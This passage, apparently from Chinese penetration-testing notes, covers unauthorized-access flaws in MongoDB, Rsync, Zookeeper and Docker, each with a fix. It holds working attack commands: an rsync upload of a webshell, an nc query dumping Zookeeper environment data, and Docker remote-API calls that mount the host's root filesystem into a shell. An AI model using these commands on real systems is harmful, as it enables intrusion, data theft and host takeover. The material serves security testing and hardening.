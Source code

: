 ```bash
```
修复建议：绑定的ip地址为 127.0.0.1，或者通过firewall限制访问。
<a name="Eysyk"></a>
## 7、Mongodb未授权访问
漏洞原因：MongoDB 默认是没有权限验证的，登录的用户可以通过默认端口无需密码对数据库任意操作(增删改高危动作)，而且可以远程访问数据库。<br />检测脚本：
```bash
#! /usr/bin/env python
# _*_  coding:utf-8 _*_

def mongodb(ip,port):    
    try:
        client = MongoClient(ip,port)
        db=client.local
        flag = db.collection_names()
        if flag:    
            print "[+] Mongodb login for anonymous"
    except Exception, e:
        pass
```
修复建议：增加用户密码权限验证，设置本地监听或者访问控制。
<a name="jN3lt"></a>
## 8、Rsync未授权访问
漏洞原因：未配置账号密码认证，导致未授权访问。<br />漏洞测试：
```
列举整个同步目录或指定目录：
rsync 10.0.0.12 ::
rsync 10.0.0.12 :: www /

下载文件或目录到本地：
rsync – avz 10.0.0.12 :: WWW/  /var/tmp
rsync – avz 10.0.0.12 :: www/  /var/tmp

上传本地文件到服务端：
rsync -avz webshell 10.0.0.12 :: WWW /
```
修复建议：增加用户密码认证，设置访问ip限制。
<a name="mZvnL"></a>
## 9、Zookeeper未授权访问
漏洞原因：ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境。<br />漏洞测试：
```bash
echo envi|nc 192.168.15.74 2181
```
![](https://cdn.nlark.com/yuque/0/2020/png/396745/1599207381126-350e6f5c-54df-48bb-9f1a-161d92298de5.png#height=216&id=FQ4AW&originHeight=216&originWidth=554&originalType=binary&ratio=1&rotation=0&showTitle=false&size=0&status=done&style=none&title=&width=554)<br />修复建议：添加用户名密码认证，设置ip访问控制。
<a name="efMSG"></a>
## 10、Docker未授权访问
漏洞原因：docker remote api可以执行docker命令，docker守护进程监听在0.0.0.0，可直接调用API来操作docker。
```bash
sudo dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```
漏洞利用：<br />通过docker daemon api 执行docker命令。
```bash
#列出容器信息，效果与docker ps一致。
curl http://<target>:2375/containers/json

#启动容器
docker -H tcp://<target>:2375 ps -a
```
1、新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。
```bash
sudo docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash
```